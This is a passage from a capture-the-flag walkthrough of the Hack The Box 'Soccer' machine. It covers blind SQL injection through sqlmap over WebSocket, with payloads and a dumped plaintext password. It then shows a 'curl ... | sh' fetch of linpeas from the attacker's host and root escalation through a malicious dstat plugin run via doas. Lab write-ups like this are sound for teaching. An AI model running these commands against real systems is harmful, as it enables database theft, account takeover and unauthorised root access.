

This is a blind SQL injection - no data from the database comes back in the response, only one of two responses. In this case, this will be `Ticket Exists`, or `Ticket Doesn't Exist`.

### SQLMap

Doing this manually is a rather laborious task. So instead, I’m going to do this in SQLMap. It’s possible that SQLmap shows the following error message

> [19:59:41] [CRITICAL] sqlmap requires third-party module 'websocket-client' in order to use WebSocket functionality
>

The problem is that SQLMap is missing the Python websockets library. On Kali this is an easy fix

```bash
$ sudo apt install python3-websocket
```

For the initial discovery, I pass the following arguments

| Argument | Value | Description |
| --- | --- | --- |
| -u | ws://soc-player.soccer.htb:9091 | The URL to connect to |
| --data |  '{"id": "1234"}' | The data or payload to send over the connection. |
| --dbms | mysql | Letting SQLMap know that the backing dbms is MySQL |
| --batch | / | Use the default answer for any question. |
| --level | 5 | Level of tests to perform (default) |
| --risk | 3 | Risk of tests to perform. (default 1) |

```bash
$ sqlmap -u "ws://soc-player.soccer.htb:9091" --data '{"id": "1234"}' --dbms mysql --batch --level 5 --risk 3

...[snip]...
[20:02:28] [INFO] testing 'MySQL UNION query (78) - 81 to 100 columns'
[20:02:30] [WARNING] in OR boolean-based injection cases, please consider usage of switch '--drop-set-cookie' if you experience any problems during data retrieval
[20:02:30] [INFO] checking if the injection point on (custom) POST parameter 'JSON id' is a false positive
(custom) POST parameter 'JSON id' is vulnerable. Do you want to keep testing the others (if any)? [y/N] N
sqlmap identified the following injection point(s) with a total of 372 HTTP(s) requests:
---
Parameter: JSON id ((custom) POST)
    Type: boolean-based blind
    Title: OR boolean-based blind - WHERE or HAVING clause
    Payload: {"id": "-9383 OR 7369=7369"}

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: {"id": "1234 AND (SELECT 9125 FROM (SELECT(SLEEP(5)))hvYE)"}
---
[20:02:33] [INFO] the back-end DBMS is MySQL
back-end DBMS: MySQL >= 5.0.12
...[snip]...
```

This will run a bunch of tests which will take a few minutes to complete. Due to the `--batch` SQLMap argument default answers will be selected for every prompt that pops up.

### Enumerating the Database

From the looks of it it seems that `sqlmap` has found a boolean and time-based blind inject. I reuse the same command from earlier and add `--dbs` to have `sqlmap` automatically pick up where  it left up and exploit the vulnerability to list me all available databases:

```bash
$ sqlmap -u "ws://soc-player.soccer.htb:9091" --data '{"id": "1234"}' --dbms mysql --batch --level 5 --risk 3 --dbs --threads 10

...[snip]...
available databases [5]:
[*] information_schema
[*] mysql
[*] performance_schema
[*] soccer_db
[*] sys
...[snip]...
```

`soccer_db` seems like the only non-default DB. Replacing  `--dbs` with `-D soccer_db` and adding `--tables` to get a list of all tables in the Soccer database:

```bash
$ sqlmap -u "ws://soc-player.soccer.htb:9091" --data '{"id": "1234"}' --dbms mysql --batch --level 5 --risk 3 -D soccer_db --tables --threads 10

...[snip]...
Database: soccer_db
[1 table]
+----------+
| accounts |
+----------+
...[snip]...
```

Seems there is only one table `accounts`. So this time I replace `--tables` with `-T accounts` and add `--dump` to dump the whole database.

> Using `--dump` in a boolean and time-based SQL injections could be very slow. So be careful! But given this is a CTF I’m not expecting tons of data.
>

```bash
$ sqlmap -u "ws://soc-player.soccer.htb:9091" --data '{"id": "1234"}' --dbms mysql --batch --level 5 --risk 3 -D soccer_db -T accounts --dump --threads 10

...[snip]...
Database: soccer_db
Table: accounts
[1 entry]
+------+-------------------+----------------------+----------+
| id   | email             | password             | username |
+------+-------------------+----------------------+----------+
| 1324 | player@player.htb | PlayerOftheMatch2022 | player   |
+------+-------------------+----------------------+----------+
...[snip]...
```

The user is player and the password is in plaintext.

## Ready Player One

That password works for the player user on the box with `su`:

```bash
www-data@soccer:/etc/nginx/sites-enabled$ su player -
Password:

player@soccer:/etc/nginx/sites-enabled$
```

And SSH as well, which is convenient:

```bash
$ sshpass -p PlayerOftheMatch2022 ssh player@soccer.htb                                                         130 ⨯

...[snip]...
player@soccer:~$
```

This allows me to grab the first flag:

```bash
player@soccer:~$ cat user.txt

22003113ce91c12b9aea04640079cb62
```

## I’am root

When I get access to a Linux machine I always like to test some low hanging fruit manually first. Like `sudo`, but it’s not configured for the player use

```bash
player@soccer:~$ sudo -l
[sudo] password for player:
Sorry, user player may not run sudo on localhost.
```

Time to run `linpeas.sh`. A hack the box VM doesn’t have access to the internet. So I first download `linpeas.sh` to my local machine in `/tmp` with `curl -LO https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh` and then spin up a python HTTP server `python3 -m http.server`. This allows me to now download linpeas onto the box and immediately pipe it to `sh`:

```bash
player@soccer:~$ curl http://10.10.14.19:8000/linpeas.sh | sh

...[snip]...
╔════════════════════════════════════╗
══════════════════════╣ Files with Interesting Permissions ╠══════════════════════
                      ╚════════════════════════════════════╝
╔══════════╣ SUID - Check easy privesc, exploits and write perms
╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation#sudo-and-suid
-rwsr-xr-x 1 root root 42K Nov 17  2022 /usr/local/bin/doas
-rwsr-xr-x 1 root root 140K Nov 28  2022 /usr/lib/snapd/snap-confine  --->  Ubuntu_snapd<2.37_dirty_sock_Local_Privilege_Escalation(CVE-2019-7304)
-rwsr-xr-- 1 root messagebus 51K Oct 25  2022 /usr/lib/dbus-1.0/dbus-daemon-launch-helper
-rwsr-xr-x 1 root root 463K Mar 30  2022 /usr/lib/openssh/ssh-keysign
-rwsr-xr-x 1 root root 23K Feb 21  2022 /usr/lib/policykit-1/polkit-agent-helper-1
-rwsr-xr-x 1 root root 15K Jul  8  2019 /usr/lib/eject/dmcrypt-get-device
-rwsr-xr-x 1 root root 39K Feb  7  2022 /usr/bin/umount  --->  BSD/Linux(08-1996)
-rwsr-xr-x 1 root root 39K Mar  7  2020 /usr/bin/fusermount
-rwsr-xr-x 1 root root 55K Feb  7  2022 /usr/bin/mount  --->  Apple_Mac_OSX(Lion)_Kernel_xnu-1699.32.7_except_xnu-1699.24.8
...[snip]...
```

In the `Files with Interesting Permissions` section I notice `doas` which is an alternative to `sudo` typically found on OpenBSD operating systems. But can also be installed on Debian-based Linux OSes like Ubuntu. I don’t see a `doas.conf` file in `/etc/` , so I decide to search the filesystem for it with `find`:

```bash
player@soccer:~$ find / -name doas.conf 2>/dev/null
/usr/local/etc/doas.conf
```

This file contains a single line, and shows me that the player user is allowed to run `/usr/bin/dstat` as root:

```bash
player@soccer:~$ cat /usr/local/etc/doas.conf
permit nopass player as root cmd /usr/bin/dstat
```

This is a tool for getting system information. Reading through the [man page](https://linux.die.net/man/1/dstat), I noticed that I can write my own plugins and have `dstat` execute them

> Paths that may contain external dstat_*.py plugins:
>
>
> ~/.dstat/ <br />
> (path of binary)/plugins/ <br />
> /usr/share/dstat/ <br />
> /usr/local/share/dstat/ <br />

What `dstat` understands as plugins are just basically python scripts using the following naming convention `dstat_[plugin name].py`.

### Malicious Plugin

This allows me to write a trivial python script that gives access to bash for an interactive shell.

```python
import os
os.system("/bin/bash")
```

Looking at the list of locations, I can obviously write to `~/.dstat`, but when run with `doas`, it’ll be running as root, and therefore won’t check `/home/player/.dstat`. Luckily, `/usr/local/share/dstat` is writable.

```bash
player@soccer:~$ echo -e 'import os\n\nos.system("/bin/bash")' > \
	/usr/local/share/dstat/dstat_shell.py
```

With that in place, I invoke `dstat` with the `shell` plugin:

```bash
player@soccer:~$ doas /usr/bin/dstat --shell
/usr/bin/dstat:2619: DeprecationWarning: the imp module is deprecated in favour of importlib; see the module's documentation for alternative uses
  import imp
root@soccer:/home/player#
```

And grab the flag:

```bash
root@soccer:~# cat root.txt
2f090c1af8f876c1193f284135abe98f
```
